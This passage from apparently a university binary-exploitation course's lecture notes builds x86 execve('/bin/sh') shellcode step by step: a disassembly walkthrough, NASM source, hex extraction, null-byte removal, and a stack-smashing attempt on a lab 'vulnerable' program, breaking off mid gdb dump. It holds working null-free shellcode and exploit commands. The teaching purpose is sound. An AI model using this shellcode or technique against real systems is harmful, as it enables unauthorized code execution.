0x08048882 <+6>:mov    DWORD PTR [ebp-0x8],0x80bb708
0x08048889 <+13>:mov    DWORD PTR [ebp-0x4],0x0
```

First, we allocate 8 bytes on the stack from `ebp`, writing the number
`0x80bb708` to `ebp-0x8` and `0x0` to `ebp-0x4`. Let's see what this
looks like in a stack layout:

``` example
  ebp+0xc   -> |    argv     |
  ebp+0x8   -> |    argc     |
  ebp+0x4   -> |  ret addr   |
  ebp       -> |     SBP     |
  ebp-0x4   -> | 0x00000000  |
  ebp-0x8   -> | 0x080bb708  | <-esp
               '-------------'
```

What is the number 0x80bbb708? Well that is the address of the string
containing `/bin/sh`.

``` example
gdb) x/s 0x80bb708
0x80bb708:"/bin/sh"
```

If that is so, what does the address `ebp-0x8` repersent? Well, that is
the address, of an address to a string containing `/bin/sh`, which means
it is a `char **` -- a pointer to a string (which is also pointer).
Another way to think about it is that it is an array of strings that is
null terminated, so `ebp-0x8` is the value of `args` in our program
`shell.c`.

``` c
    char *args[] = {"/bin/sh", NULL};
```

The next lines are the setup for our call to execve():

``` example
0x08048890 <+20>:mov    eax,DWORD PTR [ebp-0x8]
0x08048893 <+23>:push   0x0
0x08048895 <+25>:lea    edx,[ebp-0x8]
0x08048898 <+28>:push   edx
0x08048899 <+29>:push   eax
```

We've established that at address `ebp-0x8` we have the address of the
`/bin/sh` string and that the address `ebp-0x8`, itself, is the value of
the array. Following the operations above, we now have the following
vision of the stack.

``` example
  ebp+0xc   -> |    argv     |
  ebp+0x8   -> |    argc     |     0x080bb708 ---> "/bin/sh"
  ebp+0x4   -> |  ret addr   |     
  ebp       -> |     SBP     |     
  ebp-0x4   -> | 0x00000000  |   
  ebp-0x8   -> | 0x080bb708  |<--.
  ebp-0xc   -> | 0x00000000  |   |
  ebp-0x10  -> |  [ebp-0x8]--+---'
  ebp-0x14  -> | 0x080bb708  | <-esp
               '-------------'
```

And with a bit of work, we can see how these match to the arguments of
`execve`.

``` c
    execve(args[0], args, NULL);
```

The first argument on the stack is the start of the string `/bin/sh`,
the second argument is the start of the array string array containing
the address of the string and null, and the third arugment is null (or
0). Great! Now we make the call to execve and it's setup. Here's that
code again prior to the interrupt.

``` example
0x0806c820 <+0>:push   ebx
0x0806c821 <+1>:mov    edx,DWORD PTR [esp+0x10]
0x0806c825 <+5>:mov    ecx,DWORD PTR [esp+0xc]
0x0806c829 <+9>:mov    ebx,DWORD PTR [esp+0x8]
0x0806c82d <+13>:mov    eax,0xb
0x0806c832 <+18>:call   DWORD PTR ds:0x80ea9f0
```

We can continue to diagram the stack, but let's transform all of
references with respect to `esp`.

``` example
  esp+0x28  -> |    argv     |
  esp+0x24  -> |    argc     |     0x080bb708 ---> "/bin/sh"
  esp+0x20  -> |  ret addr   |     
  esp+0x1c  -> |     SBP     |     
  esp+0x18  -> | 0x00000000  |   
  esp+0x14  -> | 0x080bb708  |<--.
  esp+0x10  -> | 0x00000000  |   |
  esp+0xc   -> |  [ebp-0x8]--+---'
  esp+0x8   -> | 0x080bb708  |
  esp+0x4   -> |  ret addr   |
  esp+0x0   -> |  ???ebx???  |
               '-------------'
```

Let's now match the arguments up to those in `execve()` and the
registers with the moves:

-   `eax` : 0xb
-   `ebx` : `args[0]` : `esp+0x8` : memory reference to "/bin/sh"
-   `ecx` : `args` : `esp+0xc` : memory reference to a memory reference
    to "/bin/sh" (double pointer)
-   `edx` : `NULL` : `esp+0x10` : NULL or 0 value

With all that setup, we can now focus on the interrupt itself. The
interrupt number is 0x80 or 128. This is the interrupt number for all
system calls. After the interrupt, the operating system is invoked and
will look at the state of the registers to determine which system call
to perform using which arguments.

Which system call to execute is always set in `eax`. This is generally
referred to as the system call number, and in this case, the system call
number is 0xb or 12 for the exec system call. You can look at this handy
table for other system calls. <http://asm.sourceforge.net/syscall.html>.
You can also find all the system call numbers in the following include
file:

``` example
/usr/include/i386-linux-gnu/asm/unistd_32.h 
```

The next registers, ebx, ecx, and edx are used to pass the system call's
arguments. In this case, that is the path to the executable in ebx
(e.g., "/bin/sh"), the argv array for the executable in ecx (e.g., the
double pointer to "/bin/sh"), and environment setup in edx (.e.g., NULL
since we have none). One the system call completes, the return value
(e.g., success or failure) is set in `eax`.

This use of registers for argument passing is the same for all system
calls, not just the exec-like variants. The reason for this is actually
quite simple and practical: The operating system and the user programs
do not share the same memory address. It is incredibly important that
they do not for security purposes --- imagine a universe where any old
user program with a buffer overflow can accidentally change the
operating systems ---- but it does lead to some particular challenges,
like argument passing for systems calls where data must be explicitly
passed between os-space and user-space. Using the registers is an
obvious solution since registers are shared between all executing
programs. The OS knows that right after a system call is made via an
interrupt that the registers are all prepared the way they need to
identify the right system call, pass arguments, and set a return value.
There are also explicit ways for the kernel to reach into user memory
and grab data and put data back, which also must happen here because
only the pointer to the start of the /bin/sh string is passed, but that
process is a discussion for a different class --- an operating systems
class.

# Shell Code in x86

## An x86 Programming

Now that we know what shell code looks like when we compile a program
from C, our goal is to write our own program in x86 that will perform
the necessary system call for executing a shell. We'll do this using the
NASM compiler and the gnu linker to build the executable, but we first
need to get a grip on x86 programming generally. So we start with Hello
World!

## Hello x86 programming

We can write straight up assembly programs. Typically these files are
described as ASM files, and have the `.asm` extension. Here's a hello
world program to get us started:

``` asm
;; helloworld.asm
SECTION .data           ;data section to store string Hello, World\n
    hello:   db "Hello, World!",0x0a,0x00 ;newline and null terminated


SECTION .text           ; Code section
    global _start       ; Make label available to linker

_start:

    mov edx,0x10        ;number of bytes to write

    mov ecx,hello       ;memory reference to write

    mov ebx,0x1     ;write to stdout

    mov eax,0x4     ;system call number 4 for write
    int 0x80        ;interupt

    mov ebx,0       ;exit value
    mov eax,1       ;exit systemcall number
    int 0x80        ;interupt
```

First off, `main()` doesn't exist in assembly, it is a c-language
construct. The real starting point of any program is `_start`. It is the
special tag that indicates where to start a program. This tag, or label,
needs to be declared globally so that the linker can find it and it must
be declared in the `.text` section, which is where the code goes.

Also within the text section is the main functionality of the program to
set up the registers for the system call. Recall that the arguments to
the `write()` system call are:

``` c
 ssize_t write(int fd, const void *buf, size_t count);
```

The system call number for `write()` is 4, so looking at the setting of
the registers prior to the first interrupt we must do the following:

-   `eax` : `0x4` : system call number for write
-   `ebx` : `0x1` : write to stdout file descriptor 1
-   `ecx` : `hello` : reference to data segment to string "Hello,
    World\\n\\0"
-   `edx` : 0x10 : write 16 bytes at the reference, i.e., the string
    "Hello World\\n"

You may also notice the following line in the `.data` section:

``` asm
    hello:   db "Hello, World!",0x0a,0x00 
```

This instruction creates a named variable in asm called `hello` which at
that reference's location in memory exist the sequence of bytes
representing "Hello, World!" followed by 0x0a (the newline symbol) and
0x00 (NULL). This is an easy convention for adding bytes to the program
with a reference to be determined later.

Lastly, we preform another system call at the end of the program to
perform an exit. The system call number of `exit()` is 1 and the return
value in `ebx` is 0, a successful exit.

## Compiling and Executing ASM program

To compile our program we use nasm, the netwide assember. We wish to
assemble our asm program into an elf object file. Next, we will link our
file using ld to create the executable. This is pretty much exactly what
happens under the hood of gcc.

To assemble using nasm

``` example
  nasm -f elf32 helloworld.asm -o helloworld.o
```

The `-f elf` indicates the output format should be in elf. The object
file output is the same as any object file we've worked with this
semester.

Next, we can link our object file with `ld` to produce the executable:

``` example
  ld -m elf_i386 helloworld.o -o helloworld
```

Then, we run our program:

``` example
user@si485H-base:demo$ nasm -f elf helloworld.asm -o helloworld.o; ld helloworld.o -o helloworld
user@si485H-base:demo$ ./helloworld 
Hello, World!
```

## Write shell code in x86

So we can print "Hello, World!", but the real goal is to launch a shell.
Let's see if we can write a nasm program that can do that. First, let's
recall how the stack looked just prior to the call to execve:

``` example
  esp+0x28  -> |    argv     |
  esp+0x24  -> |    argc     |     0x080bb708 ---> "/bin/sh"
  esp+0x20  -> |  ret addr   |     
  esp+0x1c  -> |     SBP     |     
  esp+0x18  -> | 0x00000000  |   
  esp+0x14  -> | 0x080bb708  |<--.
  esp+0x10  -> | 0x00000000  |   |
  esp+0xc   -> |  [ebp-0x8]--+---'
  esp+0x8   -> | 0x080bb708  |
  esp+0x4   -> |  ret addr   |
  esp+0x0   -> |  ???ebx???  |
               '-------------'
```

And this let us to have the following registers set.

-   `eax` : 0xb
-   `ebx` : `args[0]` : `esp+0x8` : memory reference to "/bin/sh"
-   `ecx` : `args` : `esp+0xc` : memory reference to a memory reference
    to "/bin/sh" (double pointer)
-   `edx` : `NULL` : `esp+0x10` : NULL or 0 value

We can try and do the same in our code by following the example from the
helloworld program.

``` asm
  ;;;  shell.asm
  SECTION .data;data section to store string Hello, World\n
  binsh:   db "/bin/sh",0x00 ;newline and null terminated 

  SECTION .text; Code section
      global _start; Make label available to linker

  _start:

      push 0x00 ;push a null on the stack
      push binsh;push the address of /bin/sh on stack

      mov ebx, binsh;set ebx to address of /bin/sh
      mov ecx, esp;use stack pointer to get reference to /bin/sh

      mov edx, 0x00;set edx to null

      mov eax, 0xb;choose the sytem call, execve
      int 0x80;interupt

      mov ebx,0;exit value
      mov eax,1;exit systemcall number
      int 0x80;interupt            
```

Tracing through this program, you see that we use the same trick that
our C program did to build the `args` array. If we place the address of
the `/bin/sh` string on the bottom of the stack, followed by a null, the
address in `esp` is the same as an `args` array in the C program. The
remainder register setup is the same as before for a system call, and
once we compile and run it, we get a shell.

``` example
aviv@si485h-base:~/git/class-demos/classes/09$ make
nasm -g -f elf -o shell.o shell.asm
ld  -o shell shell.o
aviv@si485h-base:~/git/class-demos/classes/09$ ./shell 
$ echo "I have a shell" 
I have a shell
```

# Making Shell Code Exploit Ready

## Shell code as bytes

The next thing we want to do is represent the program we wrote in raw
bytes. To do that, let's look at the `objdump` output:

``` example
$ objdump -d -M intel shell

shell:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
8048080:6a 00                push   0x0
8048082:68 a8 90 04 08       push   0x80490a8
8048087:bb a8 90 04 08       mov    ebx,0x80490a8
804808c:89 e1                mov    ecx,esp
804808e:ba 00 00 00 00       mov    edx,0x0
8048093:b8 0b 00 00 00       mov    eax,0xb
8048098:cd 80                int    0x80
804809a:bb 00 00 00 00       mov    ebx,0x0
804809f:b8 01 00 00 00       mov    eax,0x1
80480a4:cd 80                int    0x80
user@si485H-base:demo$ objdump -d -M intel execve_fixedref
```

The byte valus for the instructions are clearly listed, but we want the
bytes and just the bytes. Fortunately, `readelf` allows us to look at
particular segments in binary.

``` example
$ readelf -x .text shell
Hex dump of section '.text':
  0x08048080 6a0068a8 900408bb a8900408 89e1ba00 j.h.............
  0x08048090 000000b8 0b000000 cd80bb00 000000b8 ................
  0x080480a0 01000000 cd80                       ......
```

Tracing across the hex, we can see that indeed, those hex values are the
same as objdump. Now, all we need to do parse that up. Which we can do
with a series of grep, sed, cut, and tr comammands:

``` example
aviv@si485h-base:~/git/class-demos/classes/09$ readelf -x .text shell 

Hex dump of section '.text':
  0x08048080 6a0068a8 900408bb a8900408 89e1ba00 j.h.............
  0x08048090 000000b8 0b000000 cd80bb00 000000b8 ................
  0x080480a0 01000000 cd80                       ......

aviv@si485h-base:~/git/class-demos/classes/09$ readelf -x .text shell | grep "0x080" #| tr -s " " | cut -d " " -f 3,4,5,6 | tr "\n" " " |  sed "s/ //g" | sed "s/\.//g"
  0x08048080 6a0068a8 900408bb a8900408 89e1ba00 j.h.............
  0x08048090 000000b8 0b000000 cd80bb00 000000b8 ................
  0x080480a0 01000000 cd80                       ......
aviv@si485h-base:~/git/class-demos/classes/09$ readelf -x .text shell 

Hex dump of section '.text':
  0x08048080 6a0068a8 900408bb a8900408 89e1ba00 j.h.............
  0x08048090 000000b8 0b000000 cd80bb00 000000b8 ................
  0x080480a0 01000000 cd80                       ......

$ readelf -x .text shell | grep "0x080" 
  0x08048080 6a0068a8 900408bb a8900408 89e1ba00 j.h.............
  0x08048090 000000b8 0b000000 cd80bb00 000000b8 ................
  0x080480a0 01000000 cd80                       ......

$ readelf -x .text shell | grep "0x080" | tr -s " "
 0x08048080 6a0068a8 900408bb a8900408 89e1ba00 j.h.............
 0x08048090 000000b8 0b000000 cd80bb00 000000b8 ................
 0x080480a0 01000000 cd80 ......

$ readelf -x .text shell | grep "0x080" | tr -s " " | cut -d " " -f 3,4,5,6 
6a0068a8 900408bb a8900408 89e1ba00
000000b8 0b000000 cd80bb00 000000b8
01000000 cd80 ......

$ readelf -x .text shell | grep "0x080" | tr -s " " | cut -d " " -f 3,4,5,6  | tr "\n" " "
6a0068a8 900408bb a8900408 89e1ba00 000000b8 0b000000 cd80bb00 000000b8 01000000 cd80 ......

$ readelf -x .text shell | grep "0x080" | tr -s " " | cut -d " " -f 3,4,5,6  | tr "\n" " " | sed "s/ //g" | sed "s/\.//g"

6a0068a8900408bba890040889e1ba00000000b80b000000cd80bb00000000b801000000cd80
```

Now we need to convert this into a hex string which we can use

``` example
$ bytes=$(readelf -x .text shell | grep "0x080" | tr -s " " | cut -d " " -f 3,4,5,6  | tr "\n" " " | sed "s/ //g" | sed "s/\.//g")
$ echo $bytes
6a0068a8900408bba890040889e1ba00000000b80b000000cd80bb00000000b801000000cd80
$ echo $bytes | python -c "import sys; hex=sys.stdin.read().strip(); print ''.join('\\\\x%s%s'%(hex[i*2],hex[i*2+1]) for i in range(len(hex)/2))"
\x6a\x00\x68\xa8\x90\x04\x08\xbb\xa8\x90\x04\x08\x89\xe1\xba\x00\x00\x00\x00\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80
```

I'm using a bit of python magic for this, but it works. Now, we could
printf this string to see that we are indeed capturing the encoding:

``` example
$ echo $bytes | python -c "import sys; hex=sys.stdin.read().strip(); print ''.join('\\\\x%s%s'%(hex[i*2],hex[i*2+1]) for i in range(len(hex)/2))"
\x6a\x00\x68\xa8\x90\x04\x08\xbb\xa8\x90\x04\x08\x89\xe1\xba\x00\x00\x00\x00\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80
$ hexbytes=$(echo $bytes | python -c "import sys; hex=sys.stdin.read().strip(); print ''.join('\\\\x%s%s'%(hex[i*2],hex[i*2+1]) for i in range(len(hex)/2))")
$ printf "$hexbytes"
jh??????
        ̀??̀
$ printf "$hexbytes" | hexdump
0000000 006a a868 0490 bb08 90a8 0804 e189 00ba
0000010 0000 b800 000b 0000 80cd 00bb 0000 b800
0000020 0001 0000 80cd                         
0000026
```

Finally, it makes sense to save this as a program so we can use it more
often. I like to call that program `hexify` and it will quickly convert
the text segement of a binary into a hex string.

``` bash
#!/bin/bash

bytes=$(readelf -x .text $1 | grep "0x080" | tr -s " " | cut -d " " -f 3,4,5,6  | tr "\n" " " | sed "s/ //g" | sed "s/\.//g")
echo $bytes | python -c "import sys; hex=sys.stdin.read().strip(); print ''.join('\\\\x%s%s'%(hex[i*2],hex[i*2+1]) for i in range(len(hex)/2))"
```

``` example
$ ./hexify.sh shell
\x6a\x00\x68\xa8\x90\x04\x08\xbb\xa8\x90\x04\x08\x89\xe1\xba\x00\x00\x00\x00\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80
```

## Fixed references suck

The raw bytes we had above is shell code, but not quite. To test it out,
we can try and execute in some c-code by casting it a function pointer.

``` c
int main(){

  char * code = "\x6a\x00\x68\xa8\x90\x04\x08\xbb\xa8\x90\x04\x08\x89\xe1\xba\x00\x00\x00\x00\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80";

  //cast pointer to function pointer and call
  ((void(*)(void)) code)();

}
```

If we then go ahead and try and execute this program, it doesn't work as
expected (or at all). To see why, we need to open it up in gdb:

``` example
(gdb) ds main
Dump of assembler code for function main:
   0x080483ed <+0>: push   ebp
   0x080483ee <+1>: mov    ebp,esp
   0x080483f0 <+3>: and    esp,0xfffffff0
   0x080483f3 <+6>: sub    esp,0x10
   0x080483f6 <+9>: mov    DWORD PTR [esp+0xc],0x80484a0
   0x080483fe <+17>:    mov    eax,DWORD PTR [esp+0xc]
   0x08048402 <+21>:    call   eax
   0x08048404 <+23>:    leave  
   0x08048405 <+24>:    ret    
End of assembler dump.
(gdb) x/10i 0x80484a0
   0x80484a0:   push   0x0
   0x80484a2:   push   0x80490a8
   0x80484a7:   mov    edx,0x0
   0x80484ac:   mov    ecx,esp
   0x80484ae:   mov    ebx,0x80490a8
   0x80484b3:   mov    eax,0xb
   0x80484b8:   int    0x80
   0x80484ba:   mov    ebx,0x0
   0x80484bf:   mov    eax,0x1
   0x80484c4:   int    0x80
```

First we see that in main we call address 0x80484a0, and if we examine
that address, we find our hello world program. But, there is a problem.
We are pushing onto the stack the address 0x80490a8 which should be our
"/bin/sh" string, but that reference is broken.

``` example
(gdb) x/s 0x80490a8
0x80490a8:  <error: Cannot access memory at address 0x80490a8>
```

Our shell code doesn't work because we have fixed references, instead we
need to do something different

## Jmp-Callback

To remove fixed references, we need to use instructions that will
calculate a reference for us. There are a few ways to do this, but we
will use the stand Jmp-Callback trick. Consider the reviced code below:

``` asm
SECTION .text       ; Code section
        global _start   ; Make label available to linker

_start:             ; Standard ld entry point
    jmp  callback

dowork:
    pop esi         ; esi now holds address of "/bin/sh
    push    0       ; args[1] - NULL
    push    esi     ; args[0] - "/bin/sh"

    mov edx,0       ; Param #3 - NULL
    mov ecx,esp     ; Param #2 - address of args array
    mov ebx,esi     ; Param #1 - "/bin/sh"
X   mov eax,0xb     ; System call number for execve
    int 0x80        ; Interrupt 80 hex - invoke system call

    mov ebx,0       ; Exit code, 0 = normal
    mov eax,1       ; System call number for exit
    int 0x80        ; Interrupt 80 hex - invoke system call

callback:
    call dowork    ; call pushes the next address onto stack,
               ; which is address of "/bin/sh" 
    db "/bin/sh",0 ;
```

The first thing that happens in `_start` is we jump to the `callback`
tag, which in terns call's the `dowork`. That might seem like a lot of
indirection, but from that indirection we gain the reference to the
string "/bin/sh".

Why? A call command not only jumps to the reference indicated, but it
will also push onto the stack the return address. The return address is
the *next* address to execute, which in the case above is address of the
data command for "/bin/sh" ... exactly what we need. At `dowork` we can
pop the return address off the stack, i.e., the address of the string
"/bin/sh" and use that address. In particular, we save that address in
the `esi` register.

Now, we can hexify and insert that code into C and see if that works:

``` c
int main(){

  char * code = "\x6a\x00\x68\xa8\x90\x04\x08\xba\x00\x00"
    "\x00\x00\x89\xe1\xbb\xa8\x90\x04\x08\xb8"
    "\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00"
    "\x00\xb8\x01\x00\x00\x00\xcd\x80";


  //cast pointer to function pointer and call
  ((void(*)(void)) code)();

}
```

``` example
user@si485H-base:demo$ gcc execve_jmpcall.c -o execve_jmpcall
user@si485H-base:demo$ ./execve_jmpcall
$ 
```

And now we are in business ... sort of.

## Null Bytes are the ENEMY

The next challenge is using our shell code through an exploit. We won't
do that exactly, but we can simulate what that might be like with this
simple program:

``` c
#include <string.h>

int main(int argc, char *argv[]){

  char code[1024];

  strncpy(code,argv[1],1024);

  //cast pointer to function pointer and call
  ((void(*)(void)) code)();

}
```

The program simply reads a command line arguments, loads it into a
buffer, and then executes the buffer. This is essentially what we want
to happen when we exploit a program, but a lot of the work is done for
us.

What we'd like to happen is that we can do this with our shell code hex:

``` example
user@si485H-base:demo$ ./hexify.sh execve_jmpcall
\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ ./dummy_exploit $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
Segmentation fault (core dumped)
```

We have a problem. Let's execute this under gdb, and we can see where
the problem arises:

``` example
(gdb) ds main
Dump of assembler code for function main:
   0x0804841d <+0>: push   ebp
   0x0804841e <+1>: mov    ebp,esp
   0x08048420 <+3>: and    esp,0xfffffff0
   0x08048423 <+6>: sub    esp,0x410
   0x08048429 <+12>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804842c <+15>:    add    eax,0x4
   0x0804842f <+18>:    mov    eax,DWORD PTR [eax]
   0x08048431 <+20>:    mov    DWORD PTR [esp+0x8],0x400
   0x08048439 <+28>:    mov    DWORD PTR [esp+0x4],eax
   0x0804843d <+32>:    lea    eax,[esp+0x10]
   0x08048441 <+36>:    mov    DWORD PTR [esp],eax
   0x08048444 <+39>:    call   0x8048310 <strncpy@plt>
   0x08048449 <+44>:    lea    eax,[esp+0x10]
   0x0804844d <+48>:    call   eax
   0x0804844f <+50>:    leave  
   0x08048450 <+51>:    ret    
End of assembler dump.
(gdb) br *0x0804844d
Breakpoint 1 at 0x804844d
(gdb) r $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
Starting program: /home/user/git/si485-binary-exploits/lec/09/demo/dummy_exploit $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")

Breakpoint 1, 0x0804844d in main ()
(gdb) x/10i $esp+0x10
   0xbffff250:  jmp    0xbffff252
   0xbffff252:  add    BYTE PTR [eax],al
   0xbffff254:  add    BYTE PTR [eax],al
   0xbffff256:  add    BYTE PTR [eax],al
   0xbffff258:  add    BYTE PTR [eax],al
   0xbffff25a:  add    BYTE PTR [eax],al
   0xbffff25c:  add    BYTE PTR [eax],al
   0xbffff25e:  add    BYTE PTR [eax],al
   0xbffff260:  add    BYTE PTR [eax],al
   0xbffff262:  add    BYTE PTR [eax],al
```

In the above gdb execution, first we set a break point right before the
call so that we can inspect the address that will be called,
`$esp+0x10`. Unfortunately, if we look closely, we see that the jmp is
there, which is our first command, but then we are in trouble. There are
a bunch of nonsense commands.

What happened? Lets look more closely at our command line argument:

``` example
$(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
```

You see that 5 bytes in, there is a NULL (\\x00) which means the
`strcpy()` command will stop copying there.

\*We need to remove NULL bytes!\*

## Removing NULL bytes

To remove NULL bytes, we need to get creative. Let's look at the objdump
of our previous version of the shell code to get a sense of where we are
at.

``` example
user@si485H-base:demo$ objdump -d -M intel execve_calljmp

execve_calljmp:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:   eb 20                   jmp    8048082 <callback>

08048062 <dowork>:
 8048062:   5e                      pop    esi
 8048063:   6a 00                   push   0x0
 8048065:   56                      push   esi
 8048066:   ba 00 00 00 00          mov    edx,0x0
 804806b:   89 e1                   mov    ecx,esp
 804806d:   89 f3                   mov    ebx,esi
 804806f:   b8 0b 00 00 00          mov    eax,0xb
 8048074:   cd 80                   int    0x80
 8048076:   bb 00 00 00 00          mov    ebx,0x0
 804807b:   b8 01 00 00 00          mov    eax,0x1
 8048080:   cd 80                   int    0x80

08048082 <callback>:
 8048082:   e8 db ff ff ff          call   8048062 <dowork>
 8048087:   2f                      das    
 8048088:   62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 804808b:   2f                      das    
 804808c:   73 68                   jae    80480f6 <callback+0x74>
```

You can see where the NULL's come from. There are two big problems:

-   `push 0x0` : pushing null on the stack requires a null value in the
    bytes
-   `push e*x` : pushing a 4 byte register storing 1 byte of values
    require null bytes

To solve one of these problem, we need to create NULL bytes without
actually writing any NULL bytes. The most affective way to do this is
with xor. Recall that the xor of a value with itself is always zero. To
solve the other problem, we need to make sure we use BYTE PTR's instead
of DWORD PTR's, which means using the `al` `bl` `cl` and `dl` registers.
We can write our code like so.

``` asm

SECTION .text       ; Code section
        global _start   ; Make label available to linker

_start:             ; Standard ld entry point
    jmp  callback

dowork:


    pop esi         ; esi now holds address of "/bin/sh

    xor     eax,eax     ; zero out eax
    push    eax     ; args[1] - NULL
    push    esi     ; args[0] - "/bin/sh"

    xor edx,edx     ; Param #3 - NULL (zero out edx)
    mov ecx,esp     ; Param #2 - address of args array
    mov ebx,esi     ; Param #1 - "/bin/sh"
    mov al,0xb      ; System call number for execve (use al mov)
    int 0x80        ; Interrupt 80 hex - invoke system call


    xor ebx,ebx     ; Exit code, 0 = normal
    xor     eax,eax     ; zero eax
    mov al,1        ; System call number for exit
    int 0x80        ; Interrupt 80 hex - invoke system call

callback:
    call dowork    ; call pushes the next address onto stack,
               ; which is address of "/bin/sh" 
    db "/bin/sh",0 ;
```

And if we now look at the objdump, there is not a NULL to be found:

``` example
user@si485H-base:demo$ objdump -d -M intel execve_nonull

execve_nonull:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:   eb 17                   jmp    8048079 <callback>

08048062 <dowork>:
 8048062:   5e                      pop    esi
 8048063:   31 c0                   xor    eax,eax
 8048065:   50                      push   eax
 8048066:   56                      push   esi
 8048067:   31 d2                   xor    edx,edx
 8048069:   89 e1                   mov    ecx,esp
 804806b:   89 f3                   mov    ebx,esi
 804806d:   b0 0b                   mov    al,0xb
 804806f:   cd 80                   int    0x80
 8048071:   31 db                   xor    ebx,ebx
 8048073:   31 c0                   xor    eax,eax
 8048075:   b0 01                   mov    al,0x1
 8048077:   cd 80                   int    0x80

08048079 <callback>:
 8048079:   e8 e4 ff ff ff          call   8048062 <dowork>
 804807e:   2f                      das    
 804807f:   62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 8048082:   2f                      das    
 8048083:   73 68                   jae    80480ed <callback+0x74>
    ...
```

Finally, we can use our shell code in the dummy exploit with success:

``` example
user@si485H-base:demo$ ./hexify.sh execve_nonull
\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ ./dummy_exploit $(printf "\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
$ 
```

# Stack Smashing with Shell Code

## Failed Attempt 1

To make use of this exploit and have it execute our shell code, we need
to overwrite the return address such that it jumps into our shell code.
We have a couple of ways to do this, and we will now enumerate some that
do not work until we get to one that does.

In this attempt, we will send our shell code along with the exploit such
that we will jump to the start of the `buf` in the code. It will look
something like this:

``` example
                   .-------------------------.
                   |                         |
                   v                         |
   ./vulnerable 5 <shell-code><padding><address-of-buf>
```

Once the exploit is complete, the overwritten return address will be the
address of the buffer, and thus we execute our shell code. To start, we
need to know how long our shell code is and we need to know the address
of the buffer.

To get the length of our shell code, we can use `printf` and `wc`

``` example
user@si485H-base:demo$ ./hexify.sh ./execve_nonull 
\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ printf "`./hexify.sh ./execve_nonull`" | wc -c
37
```

To make things easier, I'm going to save the bytes of the shell code to
a file called `shell`.

``` example
user@si485H-base:demo$ printf "`./hexify.sh ./execve_nonull`" > shell
user@si485H-base:demo$ wc -c shell 
37 shell
```

Next, I'm going to start up gdb to determine the address of `buf` using
our expected exploit length. I'll just start with 0xdeadbeef as the
address for a filler.

``` example
(gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xef\xbe\xad\xde'"`

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xef\xbe\xad\xde'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
=> 0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
